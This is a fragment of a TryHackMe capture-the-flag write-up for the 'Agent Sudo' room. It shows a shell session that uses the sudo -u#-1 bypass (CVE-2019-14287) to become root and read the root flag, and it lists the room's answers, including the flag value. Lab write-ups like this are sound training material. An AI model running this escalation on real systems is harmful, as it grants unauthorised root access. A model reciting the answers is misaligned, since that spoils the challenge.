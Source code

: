 ```commandline
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### Answer the questions below

**CVE number for the escalation (Format: CVE-xxxx-xxxx)**

    CVE-2019-14287

Interesting info about CVE-2019-14287: https://www.exploit-db.com/exploits/47502

**What is the root flag?**

    b53a02f55b57d4439e3341834d70c062

**(Bonus) Who is Agent R?**

    DesKel

